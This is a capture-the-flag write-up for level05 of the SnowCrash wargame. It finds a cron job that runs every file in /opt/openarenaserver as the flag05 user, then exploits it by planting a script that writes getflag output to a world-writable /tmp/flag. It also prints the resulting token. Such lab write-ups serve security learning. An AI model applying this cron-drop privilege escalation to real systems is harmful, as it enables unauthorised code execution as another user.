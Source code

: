 # level05

## Recognition

There is a file owned by flag05 in /usr/sbin/openarenaserver.  

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

When looking at the content of the file, we can see that this is a bash script executing any file located in `/opt/openarenaserver`.
```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We can also check for all files named `level05`
```bash
level05@SnowCrash:~$ find / -name level05 2>/dev/null
/var/mail/level05
/rofs/var/mail/level05
```

The file in `/var/mail/level05` contains the following cron information :
```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Which tells us that the script in /usr/sbin/openarenaserver will be executed by the cron every 2 minutes.

</br>
</br>

## Exploitation

We can then try to add a script in `/opt/openarenaserver/` which will execute `getflag`, we will also need to create a file in `/tmp/flag` so that it will be readable by level05, if the file is created by the script it will not be readable to our user. Similarly we have to give the permission to the file to be written by anyone.

```
level05@SnowCrash:~$ touch /tmp/flag
level05@SnowCrash:~$ chmod a+rwx /tmp/flag
level05@SnowCrash:~$ cat > /opt/openarenaserver/getflag.sh << EOF
> #!/bin/bash
> getflag > /tmp/flag
> EOF
```


We can then wait for the cron to execute the script (we can check it by checking the script which will be deleted after execution), and cat the file /tmp/flag containing the token
```
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```